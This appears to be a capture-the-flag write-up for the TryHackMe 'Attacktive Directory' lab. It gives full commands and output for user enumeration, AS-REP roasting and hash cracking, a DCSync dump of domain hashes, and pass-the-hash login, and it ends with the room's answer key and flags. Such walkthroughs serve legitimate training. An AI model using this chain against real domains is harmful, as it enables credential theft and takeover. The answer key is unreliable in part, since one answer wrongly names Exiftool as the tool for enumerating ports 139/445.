

# Attacktive Directory

- MachineIP: `10.10.209.16`
- OS       : `Windows`
- Exploit  : `AS_REP Roasting, DCSync`

---

> Know basics of kerberos authentication from [here](https://github.com/cyberwr3nch/writeups/tree/main/thm/attacking%20kerberos) before continuing

### Impackets installation

- Installing Impackets

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

- Installing Bloodhound and neo4j (already explained in attacking kerberos writeup)

```bash
sudo apt install bloodhound neo4j
```

### Attacking Active Directory

- After setting up the required tools for attacking active directory lets start attacking it
- Nmap recon, 53`(DNS)`,80`(http)`,88`(kerberos)`,135`(msrpc)`,139`(netbios)`,389 `(LDAP)`,445`(samba)`,464`(kerberos)`,593`(http-rpc)`,636`(secure LDAP)`,3268`(global catalogue LDAP)`,3269`(gloobal catalogue Secure LDAP)`,3389`(ms-wbt-server)`,5985`(wsman)`,9389`(adws)`,47001`(winrm)`
- Nmap outputs the computer name and domin name of the active directory.
- Lets enumerate the valid users in the domain using kerbrute

```bash
# -d = domain
# --dc = domain controller
# -t = threads
# -o = output file
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ kerbrute userenum -d spookysec.local --dc 10.10.209.16 -t 50 userlist.txt -o kerbrute.out

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/06/21 - Ronnie Flathers @ropnop

2021/05/06 05:26:07 >  Using KDC(s):
2021/05/06 05:26:07 >   10.10.209.16:88

2021/05/06 05:26:08 >  [+] VALID USERNAME:       james@spookysec.local
2021/05/06 05:26:08 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/05/06 05:26:09 >  [+] VALID USERNAME:       James@spookysec.local
2021/05/06 05:26:10 >  [+] VALID USERNAME:       robin@spookysec.local
2021/05/06 05:26:15 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/05/06 05:26:17 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/05/06 05:26:22 >  [+] VALID USERNAME:       backup@spookysec.local
2021/05/06 05:26:25 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/05/06 05:26:42 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/05/06 05:26:48 >  [+] VALID USERNAME:       Robin@spookysec.local
2021/05/06 05:27:20 >  [+] VALID USERNAME:       Administrator@spookysec.local
2021/05/06 05:28:30 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2021/05/06 05:28:49 >  [+] VALID USERNAME:       Paradox@spookysec.local
2021/05/06 05:30:07 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2021/05/06 05:30:34 >  [+] VALID USERNAME:       ori@spookysec.local
2021/05/06 05:31:13 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/05/06 05:32:55 >  Done! Tested 73317 usernames (16 valid) in 407.193 seconds
```

- Now we have the valid users in the network, lets check if any user has `Kerberos Pre-Auth` Disabled

```bash
# obtaining just the user names
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerbrute.out | awk '{print $7}' | cut -d '@' -f 1 | sort -u | tee valid-users.txt

# performing AS_REP Roasting
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ GetNPUsers.py spookysec.local/ -no-pass -usersfile valid-users.txt -outputfile kerberos-preauth.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[-] invalid principal syntax
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[..snip..]
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

# output saved
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerberos-preauth.out 
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1
```

- Now we have the TGT of the svc-admin, since the TGT is encrypted with the users account password if we crack the TGT we will obtain the password for the svc-admin

```bash
# identifying hash mode with hashcat
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ hashcat --example-hashes | grep -a2 krb5asrep
MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
PASS: hashcat

# cracking the TGT
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ hashcat -m 18200 kerberos-preauth.out /usr/share/wordlists/rockyou.txt
[..snip..]
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1:management2005
[..snip..]
```

- Now we have the credentials for a user in the network, now we can enumerate stuffs in the network as an authenticated user
- Enumerate other users

```bash
# via rpcclient
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ rpcclient -U 'svc-admin' 10.10.209.16
Enter WORKGROUP\svc-admin's password: 
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
[..snip..]

# via windsearch
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ windsearch -d spookysec.local -u 'svc-admin' -p 'management2005' -o windsearch.out -m users                                                  
[+] windsearch.out written                                                                                                                       
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ cat windsearch.out   
[..snip..]
dn: CN=svc admin,OU=Staff,DC=spookysec,DC=local
cn: svc admin
sAMAccountName: svc-admin
userPrincipalName: svc-admin@spookysec.local

dn: CN=backup,OU=Administrator,DC=spookysec,DC=local
cn: backup
sAMAccountName: backup
userPrincipalName: backup@spookysec.local
[..snip..]

# via impackets
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ GetADUsers.py -dc-ip 10.10.209.16 spookysec.local/svc-admin:management2005 -all
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Querying 10.10.209.16 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2020-09-17 18:53:28.851411  2020-09-17 19:03:37.467564 
Guest                                                 <never>              <never>             
[..snip..]
```

- Enumeration with bloodhound

```bash
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory/bloodhound]                                                                                 
└─$ bloodhound-python -c all -ns 10.10.209.16 -d spookysec.local -u 'svc-admin' -p 'management2005'
```


- Enumerate SMB Shares

```bash
# via crackmapexec
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ crackmapexec smb 10.10.209.16 -u 'svc-admin' -p 'management2005' --shares
SMB         10.10.209.16    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.209.16    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 

[..snip..]
SMB         10.10.209.16    445    ATTACKTIVEDIREC  backup          READ            
[..snip..]

# via smbclient
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ smbclient -L 10.10.209.16 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
[..snip..]
```

- Download the file from the share

```bash
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ smbclient \\\\10.10.209.16\\backup -U svc-admin
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
                8247551 blocks of size 4096. 3636462 blocks available
smb: \> get backup_credentials.txt
```

- The contents are base64 encoded, decode it to obtain the credentials for the backup user `cat backup_creadentials.txt | base64 -d`

- Now we have the credentials for the backup account, and from the results in the bloodhound enumeration `Shortest Paths to High Value Targets` shows a direction from backup account to the doamin 

<p align="center">
    
</p>

- Backup account has full access over the spookysec.local domain
- We can clone the contents of the domian with this `Generic All` permissions

```bash
# cloning the dc
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ secretsdump.py -just-dc -dc-ip 10.10.209.16 spookysec.local/backup:backup2517860@spookysec.local -outputfile secretsdump.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
[..snip..]
```

- Using [Evil-winrm](https://github.com/Hackplayers/evil-winrm) we login to the machine

```bash
# evilwinrm installation
sudo gem install evil-winrm

# logging in

┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ evil-winrm -i 10.10.209.16 -H 0e0363213e37b94221497260b0bcb4fc -u 'Administrator'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
AttacktiveDirectory
```

- Flags location
  - C:\Users\svc-admin\Dektop\user.txt.txt
  - C:\Users\backup\Desktop\PrivEsc.txt
  - C:\Users\Administrator\Desktop\root.txt

## Answers

### Welcome to Attacktive Directory

- What tool will allow us to enumerate port 139/445?
`Exiftool`

- What is the NetBIOS-Domain Name of the machine?
`THM-AD`

- What invalid TLD do people commonly use for their Active Directory Domain?
`.local`

### Enumerating Users via kerberos

- What command within Kerbrute will allow us to enumerate valid usernames?
`userenum`

- What notable account is discovered? (These should jump out at you)
`svc-admin`

- What is the other notable account is discovered? (These should jump out at you)
`backup`

### Abusing Kerberos

- We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
`svc-admin`

- Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)
`Kerberos 5 AS-REP etype 23`

- What mode is the hash?
`18200`

- Now crack the hash with the modified password list provided, what is the user accounts password?
`management2005`

### Back to the Basics

- Using utility can we map remote SMB shares?
`smbclient`

- Which option will list shares?
`-L`

- How many remote shares is the server listing?
`6`

- There is one particular share that we have access to that contains a text file. Which share is it?
`backup`

- What is the content of the file?
`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

- Decoding the contents of the file, what is the full contents?
`backup@spookysec.local:backup2517860`

### Elevating Pivilegese within domain

- What method allowed us to dump NTDS.DIT?
`DRSUAPI`

- What is the Administrators NTLM hash?
`0e0363213e37b94221497260b0bcb4fc`

- What method of attack could allow us to authenticate as the user without the password?
`Pass The Hash`

- Using a tool called Evil-WinRM what option will allow us to use a hash?
`-H`

### Flag Submission

- svc-admin
`TryHackMe{K3rb3r0s_Pr3_4uth}`

- backup
`TryHackMe{B4ckM3UpSc0tty!}`

- Administrator
`TryHackMe{4ctiveD1rectoryM4st3r}`